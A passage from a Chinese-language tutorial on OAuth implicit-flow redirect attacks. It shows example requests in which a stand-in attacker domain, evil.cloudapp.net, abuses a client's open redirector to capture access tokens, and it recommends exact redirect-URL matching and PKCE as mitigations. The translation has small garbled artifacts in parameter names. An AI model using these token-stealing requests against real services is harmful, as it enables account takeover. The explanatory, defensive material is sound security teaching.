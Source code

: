 **需要明确的是，[隐流](https://web.archive.org/web/20220627184928/https://oauth.net/2/grant-types/implicit/)T3】不推荐。**最好使用授权码授权流，由 [PKCE](https://web.archive.org/web/20220627184928/https://tools.ietf.org/html/rfc7636) 提供额外的安全性。也就是说，让我们看看重定向攻击是如何通过隐式流表现出来的。

针对隐式流的重定向攻击将遵循与我们上面看到的相同的基本轮廓。主要区别在于攻击者立即获得令牌，因为没有授权码交换步骤。

和以前一样，重定向 URL 的绝对匹配也将减轻这类攻击。

此外，我们可以发现隐式流包含另一个相关的漏洞。**攻击者可以使用客户端作为开放重定向器，并让它重新附加片段**。

攻击像以前一样开始，攻击者让用户访问攻击者控制下的页面，例如`https://evil.cloudapp.net/info`。该页面被精心设计为像以前一样启动授权请求。但是，它现在包含一个重定向 URL:

```
GET /authorize?response_type=token&client;_id=ABCD&state;=xyz&redirect;_uri=https%3A%2F%2Fapp.cloudapp.net%2Fcb%26redirect_to
%253Dhttps%253A%252F%252Fevil.cloudapp.net%252Fcb HTTP/1.1 
```

`redirect_to https://evil.cloudapp.net`正在设置授权端点，将令牌重定向到攻击者控制下的域。授权服务器现在将首先重定向到实际的应用程序站点:

```
Location: https://app.cloudapp.net/cb?redirect_to%3Dhttps%3A%2F%2Fevil.cloudapp.net%2Fcb#access_token=LdKgJIfEWR34aslkf&... 
```

当该请求到达开放重定向器时，它将提取重定向 URL `evil.cloudapp.net`，然后重定向到攻击者的站点:

```
https://evil.cloudapp.net/cb#access_token=LdKgJIfEWR34aslkf&... 
```

绝对 URL 匹配也会减轻这种攻击。

## 6.摘要

在本文中，我们讨论了一类基于重定向 URL 的针对 OAuth 协议的攻击。

虽然这有潜在的严重后果，但在授权服务器上使用绝对 URL 匹配可以减轻这类攻击。